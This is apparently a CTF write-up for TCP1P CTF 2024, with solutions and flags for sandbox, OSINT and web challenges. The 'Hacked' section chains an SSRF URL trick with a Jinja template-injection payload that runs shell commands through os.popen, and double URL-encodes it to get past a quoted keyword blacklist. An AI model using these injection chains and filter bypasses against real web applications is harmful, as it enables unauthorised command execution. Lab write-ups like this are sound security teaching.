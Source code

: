 # TCP1P CTF

## Welcome

### Solution

On discord profile for bot at TCP1Ps [Discord Server](https://discord.gg/RQ5e3EW5dA)


<details>
<summary>Flag</summary>

`TCP1P{Welcome_To_TCP1P_CTF_2024_Discord}`
</details>



## Denis JS (old)

### Solution

#### First

```js
console.log([...Deno.readDirSync('/').map(file => file.name)]);
```

#### Second

```js
console.log(Deno.readTextFileSync('/flag-d53212042bb1b2dd56129c909bc93350'));
```

#### Combined

```js
console.log(Deno.readTextFileSync('/' + [...Deno.readDirSync('/').map(file => file.name)].find(name => name.startsWith('flag'))));
```

<details>
<summary>Flag</summary>

`TCP1P{HOpe_N49I_DidNt_5eE_i_uSe_h1S_p4yLO4d_T0_50lve_tHI5_ch41LEnGe}`
</details>



## Bandit

### Task

An Jieyab as informant took a photo of a vehicle, can you find the location?

The flag is name the location and date example TCP1P{Town, Coutry. Month Year}

#### Image

![task](assets/suspect.jpg)

### Solution

A google serach of `N 1700 go indinesia car license plate` gives https://platesmania.com/id/gallery.php?gal=id&ctype=1&nomer=N+1700+GO

<details>
<summary>Flag</summary>

`TCP1P{Malang, Indonesia. October 2019}`
</details>



## The Investigator

### Task

Help Jieyab found the newspaper. When was this newspaper published?

The flag name is date TCP1P{Date Month Year}

#### Image

![task](<assets/PETRUS roeit Indonesische misdaad uit.png>)

### Solution

A google seach led me to this page wher you can sarch in old german newspapers. https://www.delpher.nl/nl/kranten/results?query=Links+Frankrijk+wil+rechtse+pers+breken&page=1&coll=ddd

A search for the title of the paper gives me the exact same paper:
Then I found the https://www.delpher.nl/nl/kranten/view?query=Links+Frankrijk+wil+rechtse+pers+breken&coll=ddd&identifier=ddd:011205843:mpeg21:a0736&resultsidentifier=ddd:011205843:mpeg21:a0736&rowid=1

<details>
<summary>Flag</summary>

`TCP1P{17 December 1983}`
</details>



## Night Live at Indonesian

### Task

Oeman is a nightlife maniac tourist in 2007 - 2010, he came back to Indonesia to enjoy the nightlife but the place was closed, what was the name of the place? And who was the person who closed the place?

The flag is name of Man was close the place and the birth date example TCP1P{Abdul Risna Ardana, 14 July 1669}

#### Image 1

![taskimage1](assets/1.jpg)

#### Image 2

![taskimage2](assets/2.jpg)

#### Image 3

[taskimage3](assets/3.jpg)

#### Image 4

![taskimage4](assets/4.jpg)

#### Image 5

![taskimage5](assets/5.jpg)

### Solution

Reverse image search of the emblem saying 16 reveals the club is Jakarta Stadium
Then i find this article: https://www.vice.com/en/article/whats-stopping-stadium-from-reopening/ mentioning that it was the city gouvernor who closed it:
Basuki Tjahaja Purnama, 29. juni 1966

<details>
<summary>Flag</summary>

`TCP1P{Basuki Tjahaja Purnama, 29 June 1966}`
</details>



## Hacked

### Task

### Solution

This task consisted of multiple parts with different workarounds

The first challenge it to reach `/secret` and still fulfill requirements of `@is_from_localhost`. To do that we can proxy through the `/`. The backend for this looks like this:

```py
url = request.args.get('url')

list_endpoints = [
    '/about/',
    '/portfolio/',
]

target_url = "http://daffa.info" + url

if target_url.startswith("http://daffa.info") and any(target_url.endswith(endpoint) for endpoint in list_endpoints):
    # fetch url
```
to do that we will call this:

```bash
curl ctf.tcp1p.team:10012/?url=@localh.st:1337/secret?dummy=/about/
```
* The **@** acts to remove the `http://daffa.info` from the prexied url by setting it as a "username".
* The **dummy=/about/** at the end is also there to fake that the end of the url is `/about/`.
* The **localh.st** acts as a middle man that redirects so it looks like the request comes from localhost as we can read more about [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md).

Now we have successfully been redirected to the secret page, but it requires an admin parameter so it doesnt further redirect us:

```py
if not request.args.get('admin'):
    abort(403) 
```

```bash
curl ctf.tcp1p.team:10012/?url=@localh.st:1337/secret?admin=loremipsum%26dummy=/about/
```

We have now accessed the page and can now try to attack the `render_template_string(template)`. We try:

```py
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat ../*.txt').read()}}
```

Now we encounter a third issue. The requests of `/` are passed through a blacklist:

```py
blacklist = ["debug", "args", "headers", "cookies", "environ", "values", "query",
    "data", "form", "os", "system", "popen", "subprocess", "globals", "locals",
    "self", "lipsum", "cycler", "joiner", "namespace", "init", "join", "decode",
    "module", "config", "builtins", "import", "application", "getitem", "read",
    "getitem", "mro", "endwith", " ", "'", '"', "_", "{{", "}}", "[", "]", "\\", "x"]
```

As we can see we are not allowed to write `{{` and `}}` for our jinja template injection, and also most of our functions are blacklisted.

Therefore we need to encode this in some way. Because the blacklist check is in `/` before we get redirected we can url encode the string twice so it doesnt unveil our true payload before it has gone through the proxy. CyberChefs URL encode cannot do this task, because it doesnt encode all symbols. Therefor we used some other [online tool](https://onlinetexttools.com/url-encode-text)

```bash
curl ctf.tcp1p.team:10012/?url=@localh.st:1337/secret?admin=%25%37%42%25%37%42%25%37%33%25%36%35%25%36%43%25%36%36%25%32%45%25%35%46%25%35%46%25%36%39%25%36%45%25%36%39%25%37%34%25%35%46%25%35%46%25%32%45%25%35%46%25%35%46%25%36%37%25%36%43%25%36%46%25%36%32%25%36%31%25%36%43%25%37%33%25%35%46%25%35%46%25%32%45%25%35%46%25%35%46%25%36%32%25%37%35%25%36%39%25%36%43%25%37%34%25%36%39%25%36%45%25%37%33%25%35%46%25%35%46%25%32%45%25%35%46%25%35%46%25%36%39%25%36%44%25%37%30%25%36%46%25%37%32%25%37%34%25%35%46%25%35%46%25%32%38%25%32%37%25%36%46%25%37%33%25%32%37%25%32%39%25%32%45%25%37%30%25%36%46%25%37%30%25%36%35%25%36%45%25%32%38%25%32%37%25%36%33%25%36%31%25%37%34%25%32%30%25%32%45%25%32%45%25%32%46%25%32%41%25%32%45%25%37%34%25%37%38%25%37%34%25%32%37%25%32%39%25%32%45%25%37%32%25%36%35%25%36%31%25%36%34%25%32%38%25%32%39%25%37%44%25%37%44%26dummy=/about/
```

<details>
<summary>Flag</summary>

`TCP1P{Ch41n1ng_SsRF_pLu5_5St1_ba83f3ff121ba83f3ff121}`
</details>



## Doxxed

### Solution

```bash
echo VENQMVB7ODNmZTAzNGIyY2ZiMDlkZWFmYmI5NTViMDMzOTJhMDgzZDhmODNiMn0K | base64 -d
```

<details>
<summary>Flag</summary>

`TCP1P{83fe034b2cfb09deafbb955b03392a083d8f83b2}`
</details>